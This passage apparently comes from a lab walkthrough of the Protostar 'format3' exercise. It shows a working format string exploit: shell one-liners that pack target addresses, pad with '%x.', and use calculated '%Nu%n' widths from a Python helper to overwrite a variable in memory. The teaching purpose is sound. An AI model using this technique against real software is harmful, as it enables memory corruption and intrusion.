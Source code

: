 ```shell
user@protostar:/opt/protostar/bin$ python -c "print '\x01\x01\x01\x01\xf4\x96\x04\x08\x01\x01\x01\x01\xf5\x96\x04\x08\x01\x01\x01\x01\xf6\x96\x04\x08\x01\x01\x01\x01\xf7\x96\x04\x08' + '%x.'*11 + '%u%n%u%n%u%n%u%n'" | /opt/protostar/bin/format3
0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.16843009168430091684300916843009
target is 88807870 :(
```

The final step here is to determine the `n` value for each `%nu` format
parameter. scut's paper has a method we can use to calculate the value. We
translate it to a Python function.

```python
def calculate(to_write, written):
    to_write += 0x100
    written %= 0x100
    padding = (to_write - written) % 0x100
    if padding < 10:
        padding += 0x100
    return padding
```

`to_write` is the value we want to write at a particular `%n`, `written` is the
number of bytes that have been written by the format string function so far.
`calculate(0x44, 0x68)` gets us `220`. How do we get `0x68`? Remember when we
first demonstrated writing to all 4 bytes of `target` and we wrote `0x58` to
each byte? We increased the length of our input string by 16 bytes
(`\x01\x01\x01\01` * 4) so we add `0x58 + 16 = 0x68`.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\x01\x01\x01\x01\xf4\x96\x04\x08\x01\x01\x01\x01\xf5\x96\x04\x08\x01\x01\x01\x01\xf6\x96\x04\x08\x01\x01\x01\x01\xf7\x96\x04\x08' + '%x.'*11 + '%220u%n%u%n%u%n%u%n'" | /opt/protostar/bin/format3
0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.                                                                                                                                                                                                                    16843009168430091684300916843009
target is 5c544c44 :(
```

From here, it is easy to calculate the other 3 `n` values. We simply use the
previous byte as the `written` parameter and the target byte as the `to_write`
parameter in our Python function. Doing this, we see that the 4 `n` values we
need to supply are 220, 17, 173 and 255.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\x01\x01\x01\x01\xf4\x96\x04\x08\x01\x01\x01\x01\xf5\x96\x04\x08\x01\x01\x01\x01\xf6\x96\x04\x08\x01\x01\x01\x01\xf7\x96\x04\x08' + '%x.'*11 + '%220u%n%17u%n%173u%n%255u%n'" | /opt/protostar/bin/format3
0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.                                                                                                                                                                                                                    16843009         16843009                                                                                                                                                                     16843009                                                                                                                                                                                                                                                       16843009
you have modified the target :)
```
